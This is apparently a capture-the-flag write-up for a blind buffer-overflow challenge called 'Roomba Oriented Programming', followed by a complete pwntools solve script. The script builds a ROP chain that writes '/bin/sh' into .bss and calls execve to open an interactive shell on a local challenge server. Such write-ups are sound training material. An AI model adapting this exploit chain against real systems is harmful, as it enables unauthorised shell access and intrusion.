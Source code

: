 ## Roomba Oriented Programming 
it's a straightforward BoF players need to build a ROP chain using the gadgets available in the core dump. The idea is to:
- Use a read syscall to write /bin/sh into .bss.
- Execute an execve("/bin/sh", NULL, NULL) syscall using ROP gadgets.

The twist: exploitation must be done blindly against a remote server where the binary is running. The difficulty lies in analyzing the core dump to recover useful gadgets and offsets, since the ELF isn’t provided.

### Solve script
```py
from pwn import *

io = remote('127.0.0.1', 1337)

io.recvuntil(b'secret shutdown command')

OFFSET = 24
XOR_RAX_RAX = 0x0000000000401184
XOR_EAX_EAX = 0x0000000000401185
XOR_EDI_EDI = 0x000000000040118f
POP_RDX = 0x0000000000401182  
POP_R15 = 0x0000000000401196
BSS_ADDR = 0x404200
MOV_RSI_R15 = 0x0000000000401192

POP_RDI = 0x0000000000401197

MOV_EAX_3B = 0x0000000000401188

XOR_R15_R15 = 0x000000000040118e

SYSCALL = 0x0000000000401199
RET = 0x000000000040101a

payload = b'A' * OFFSET

#? 1 - Write /bin/sh\x00 to BSS
payload += p64(RET)
payload += p64(XOR_RAX_RAX)
payload += p64(XOR_EDI_EDI)
payload += p64(POP_RDX)
payload += p64(8) # Read 8 bytes

payload += p64(POP_R15)
payload += p64(BSS_ADDR)
payload += p64(MOV_RSI_R15)
payload += p64(SYSCALL)

#? 2- pop rdi and store the address of the BSS /bin/sh\x00
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BSS_ADDR)

#? 3 - Set rax to 0x3b (execve syscall)
payload += p64(XOR_EAX_EAX)
payload += p64(MOV_EAX_3B)

#? 4 - zero out rsi
payload += p64(XOR_R15_R15)
payload += p64(MOV_RSI_R15)

#? 5 - Set rdx to 0
payload += p64(POP_RDX)
payload += p64(0)

#? 6 - Syscall
payload += p64(SYSCALL)

io.sendline(payload)
time.sleep(3)
io.sendline(b'/bin/sh\x00')

io.interactive()
```